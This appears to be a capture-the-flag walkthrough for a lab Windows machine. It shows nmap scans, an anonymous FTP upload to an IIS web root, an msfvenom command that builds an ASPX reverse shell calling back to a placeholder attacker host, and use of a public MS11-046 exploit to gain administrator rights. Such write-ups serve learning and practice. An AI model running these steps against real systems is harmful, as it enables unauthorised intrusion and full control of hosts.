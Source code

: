 # Recon
### nmap

```bash
# Nmap 7.92 scan initiated Fri Oct 29 09:59:14 2021 as: nmap -sS --min-rate 5000 --open -vvv -p- -n -Pn -oG allPorts 10.10.10.5
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.5 ()	Status: Up
Host: 10.10.10.5 ()	Ports: 21/open/tcp//ftp///, 80/open/tcp//http///	Ignored State: filtered (65533)
# Nmap done at Fri Oct 29 09:59:40 2021 -- 1 IP address (1 host up) scanned in 26.50 seconds
```

```bash
# Nmap 7.92 scan initiated Fri Oct 29 10:01:03 2021 as: nmap -sCV -p21,80 -oN tcpscript 10.10.10.5
Nmap scan report for 10.10.10.5
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
| 10-29-21  03:14PM                 2936 reverse.aspx
| 10-29-21  04:02AM                 2770 shell.aspx
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct 29 10:01:40 2021 -- 1 IP address (1 host up) scanned in 36.53 seconds
```

#### Website - TCP 80
<img src="/assets/img/devel/1.png">

So, nothing interesting here to do.

#### FTP 21
<img src="/assets/img/devel/2.png">

We can get access as anonymous. Username `anonymou` password `just press enter`.

After watching the directory, we can find some files.
Lets watch them on the web.

<img src="/assets/img/devel/3.png">

<img src="/assets/img/devel/4.png">

#### Shell
After looking all the files, it looks like I can Upload some files. So, I'm gonna make a reverseshell with `msfvenom`.

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=xx.xx.xx.xx LPORT=1234 -o shell.aspx
```

Now, lets put it on.

<img src="/assets/img/devel/5.png">

Then We can just start listening and opened at the web.

<img src="/assets/img/devel/6.png">

## Shell as Root
#### Enumeration
<img src="/assets/img/devel/7.png">

The machine as a OS version really vulnerable, we just need to find it at internet.

`MS11-046 exploit github`

#### Privilenge Scalation

We find the github and use it to dorp in the machine.

<img src="/assets/img/devel/8.png">

<img src="/assets/img/devel/9.png">

We go to the directoy we drop the file. then just execute it and we are now root(administrator) of the file.

<img src="/assets/img/devel/10.png">










